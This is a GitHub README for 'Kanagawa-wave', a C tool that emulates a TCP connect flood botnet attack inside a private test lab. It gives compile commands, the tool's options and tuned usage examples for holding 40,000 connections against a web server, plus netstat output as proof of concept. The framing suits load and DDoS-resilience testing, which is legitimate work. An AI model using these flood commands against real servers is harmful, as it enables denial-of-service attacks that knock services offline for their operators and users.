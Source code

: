 #### Kanagawa-wave

TCP connect flood botnet attack emulation

#### Test lab

To emulate botnet attack from many ips, attcker's eth0 aliased with ips from 172.26.0.0/16 subnet (BLOCK I on pic. 1). Static route entry to 172.26.0.0/16 (attackers PC) exists in routing table (BLOCK II on pic. 1). Router is in between attacker and web server (BLOCK III on pic. 1)

![scheme pic. 1](doc/test_lab_scheme.png)

_Pic. 1 test lab scheme_

#### Installation

On _attacker_ machine run: 
```
botnet@attacker: gcc -o kanagawa-wave kanagawa-wave.c -lpthread
botnet@attacker: ./kanagawa-wave -h
./kanagawa-wave [ -i epair0b -n 1 -c 1000 -t 10 -d 10.134.23.123 -p 443]
        -i interface name
        -n rotate this amount of source ips aliased to "-i interface"
        -c connections to hold
        -t threads
        -d destination ip
        -p port
        -r reconnect broken sockets [experimental]
```

#### Examples

##### Bad usage
```
./kanagawa-wave -i eth0 -n 40000 -c 40000 -t 10 -d 172.25.3.1 -p 443
                           ^        ^
Use 40k different src IPs to hold 40k connections. 1 TCPconn per IP is not TCP connect flood
```
##### Good usage
```
./kanagawa-wave -i eth0 -n 10 -c 40000 -t 10 -d 172.25.3.1 -p 443
                           ^        ^
Use 10 different src IPs to hold 40k connections. 4000 TCPconn per IP looks like TCP connect flood
```
##### POC

After launching ```kanagawa-wave``` check amount of TCP connections
on ```web server```(BLOCK III pic.1)
```
netstat -p tcp -ss | grep -i established
40000 connections in ESTABLISHED state
```

